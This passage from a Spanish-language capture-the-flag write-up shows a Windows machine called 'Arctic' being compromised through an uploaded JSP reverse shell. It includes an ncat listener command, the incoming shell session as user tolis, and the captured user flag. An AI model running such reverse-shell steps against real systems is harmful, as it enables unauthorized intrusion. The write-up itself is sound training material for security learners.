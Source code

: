 
Quiere decir que si ahora pinchamos en el archivo `reverse.jsp` al interpretarme el servidor el archivo `jsp`, deberiamos ganar acceso al sistema.


Le damos y con `ncat` nos ponemos en escucha en el puerto `443`, tambien haciendo uso de `rlwrap` para obtener una consola mas interactiva.

```bash
❯ rlwrap ncat -nlvp 443
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
```

Esperamos unos segundos y ganamos acceso al sistema como el usuario `tolis`

```cmd
❯ rlwrap ncat -nlvp 443
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.11.
Ncat: Connection from 10.10.10.11:49672.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

whoami
whoami
arctic\tolis
```
Si ahora nos vamos a la raiz del sistema y buscamos la primera flag de forma recursiva, vemos que se encuentra en el direcotrio personal del usuario, la leemos y habriamos obtenido la primera flag `user.txt`


```cmd
cd C:\
cd C:\

dir /r /s user.txt
dir /r /s user.txt
 Volume in drive C has no label.
 Volume Serial Number is 5C03-76A8

 Directory of C:\Users\tolis\Desktop

13/04/2023  02:35                 34 user.txt
               1 File(s)             34 bytes

     Total Files Listed:
               1 File(s)             34 bytes
               0 Dir(s)   1.434.173.440 bytes free

type C:\Users\tolis\Desktop\user.txt
type C:\Users\tolis\Desktop\user.txt
b2d38d2f34b46b4189d147c805813fa4
```
## Escalada de Privilegios [#](#escalada-de-privilegios) {#escalada-de-privilegios}
